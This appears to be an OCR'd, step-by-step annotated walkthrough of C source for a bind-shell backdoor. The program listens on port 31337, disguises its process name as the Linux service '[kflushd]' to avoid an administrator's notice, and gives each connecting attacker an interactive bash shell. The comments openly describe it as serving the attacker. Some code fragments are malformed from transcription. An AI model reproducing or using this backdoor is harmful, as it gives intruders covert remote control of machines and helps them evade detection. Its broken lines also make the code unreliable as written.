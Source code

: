 # 1 

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <strings.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <signal.h>

-- First step: define the libraries

# 2 

#define MINHA_PORTA 31337; --/define the port
#define BACKLOG 5; --/max number of connections

# 3 

 struct sockaddr_in local; / local structure
  struct sockaddr_in remote; / remote structure

# 4 

strcpy(argv[0], "[kflushd]");
 
--/Copy the "kflushd" value to "argv[0]. kflushd is a name for a linux service. We use this argument because when the admin check the process in memory, will not show a strange value or name

# 5 

            Meusocket = socket(AF_INET, SOCK_STREAM, 0);
            bind(Meusocket, (struct sockaddr *)&local, sizeof(struct sockaddr));
            listen(Meusocket, BACKLOG);
            tamanho = sizeof(struct sockaddr_in);


--Define the port and the local address that will start the program
--func. bind() and listen() links the port in the program, and BACKLOG is the maximum number of connections
# 6 

 while(1)
            {
              if((Novosocket=accept(Meusocket, (struct sockaddr *)&remote, &tamanho)) == 1)
                    {
                      perror("accept");
                      exit(1); 
                      }
                      if(!fork())
                      {
                       close(0); close(1); close(2);
                       dup2(Novosocket, 0); dup2(Novosocket, 1); dup2(Novosocket, 2);
                       execl("/bin/bash","bash","-i", (char *)0);
                       close(Novosocket);
                       exit(0);
                       }
              }
  }
  
} 

 --Accept conections and provides the shell for the attacker

# 7 

    execl("/bin/bash","bash","-i", (char *)0);
    close(Novosocket);
    exit(0);
-- exec the shell


# 8 

 local.sin_addr.s_addr = INADDR_ANY;  
  --define the local addrs

